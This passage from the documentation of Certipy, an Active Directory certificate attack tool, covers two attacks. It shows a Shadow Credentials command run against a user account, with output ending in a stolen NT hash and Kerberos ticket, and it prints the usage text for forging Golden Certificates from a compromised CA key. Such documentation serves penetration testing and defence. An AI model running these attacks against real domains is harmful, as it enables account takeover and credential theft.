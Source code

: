 In short, the Shadow Credentials attack is performed by adding a new "Key Credential" to the target account. The Key Credential can then be used with the PKINIT Kerberos extension for authentication.

Certipy's `shadow` command has an `auto` action, which will add a new Key Credential to the target account, authenticate with the Key Credential to retrieve the NT hash and a TGT for the target, and finally restore the old Key Credential attribute.

```bash
$ certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'Jane'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '00f38738-288e-4c85-479a-a6313ab46fe6'
[*] Adding Key Credential with device ID '00f38738-288e-4c85-479a-a6313ab46fe6' to the Key Credentials for 'Jane'
[*] Successfully added Key Credential with device ID '00f38738-288e-4c85-479a-a6313ab46fe6' to the Key Credentials for 'Jane'
[*] Authenticating as 'Jane' with the certificate
[*] Using principal: jane@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'jane.ccache'
[*] Trying to retrieve NT hash for 'jane'
[*] Restoring the old Key Credentials for 'Jane'
[*] Successfully restored the old Key Credentials for 'Jane'
[*] NT hash for 'Jane': a87f3a337d73085c45f9416be5787d86
```

This action is useful if you just want the NT hash or TGT for further authentication. It is possibly to manually add, authenticate, and delete the Key Credential, if desired. See the usage or [blog post](https://research.ifcr.dk/34d1c26f0dc6) for more information. 

### Golden Certificates

Golden Certificates are certificates that are manually forged with a compromised CA's certificate and private key, just like Golden Tickets are forged with a compromised `krbtgt` account's NT hash.

```
Certipy v4.0.0 - by Oliver Lyak (ly4k)

usage: certipy forge [-h] -ca-pfx pfx/p12 file name [-upn alternative UPN] [-dns alternative DNS] [-template pfx/p12 file name] [-subject subject] [-issuer issuer] [-crl ldap path] [-serial serial number] [-key-size RSA key length] [-debug] [-out output file name]

optional arguments:
  -h, --help            show this help message and exit
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -upn alternative UPN
  -dns alternative DNS
  -template pfx/p12 file name
                        Path to template certificate
  -subject subject      Subject to include certificate
  -issuer issuer        Issuer to include certificate. If not specified, the issuer from the CA cert will be used
  -crl ldap path        ldap path to a CRL
  -serial serial number
  -key-size RSA key length
                        Length of RSA key. Default: 2048
  -debug                Turn debug output on

output options:
  -out output file name
```